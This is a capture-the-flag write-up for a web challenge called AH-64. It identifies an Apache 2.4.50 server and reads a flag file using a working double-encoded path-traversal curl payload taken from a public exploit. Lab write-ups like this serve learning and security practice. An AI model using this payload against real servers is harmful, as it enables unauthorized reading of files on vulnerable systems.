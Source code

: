 **AH-64**

> Category: Web
>
> Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag
> 
> Site: AH-64 (http://io.ept.gg:30071/)

Going into the link we get a website with the text "It works!", and no more. 

We can send a GET-request to the webpage to see the server version.

Using httpie:
```
http GET http://io.ept.gg:30071/ 
```
Shows us 
> Server: Apache/2.4.50 (Unix)

A little research shows us that this server is vulnerable to a path-traversal attack (https://www.exploit-db.com/exploits/50406)
The webpage also gives us the method to perform this attack.

```
curl http://io.ept.gg:30071//cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/opt/flag
```
> EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}



